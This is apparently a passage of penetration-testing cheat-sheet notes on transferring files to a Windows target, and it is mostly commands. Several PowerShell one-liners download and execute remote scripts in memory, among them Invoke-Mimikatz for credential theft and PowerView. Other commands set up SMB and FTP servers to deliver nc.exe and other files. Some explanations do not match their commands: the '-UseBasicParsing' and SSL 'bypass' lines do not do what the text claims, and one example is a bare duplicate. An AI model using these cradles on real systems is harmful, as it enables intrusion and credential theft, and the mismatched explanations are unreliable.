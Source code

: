```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
#### PowerShell Invoke-WebRequest
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
#### Common Errors with PowerShell
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
This can be bypassed using the parameter `-UseBasicParsing`.
```powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX
```
Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
## SMB Downloads
#### Create the SMB Server
```shell
sudo impacket-smbserver share -smb2support ~/Downloads
```
#### Copy a File from the SMB Server
```cmd
copy \\192.168.220.133\share\nc.exe
```
New versions of Windows block unauthenticated guest access, as we can see in the following command:
```cmd
copy \\192.168.220.133\share\nc.exe
```
To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine:
#### Create the SMB Server with a Username and Password
```shell
sudo impacket-smbserver share -smb2support ~/Downloads -user test -password test
```
#### Mount the SMB Server with Username and Password
```cmd
net use n: \\192.168.220.133\share /user:test test
```
## FTP Downloads
#### Setting up a Python3 FTP Server
```shell
sudo python3 -m pyftpdlib --port 21
```
#### Transfering Files from an FTP Server Using PowerShell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
#### Create a Command File for the FTP Client and Download the Target File
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
```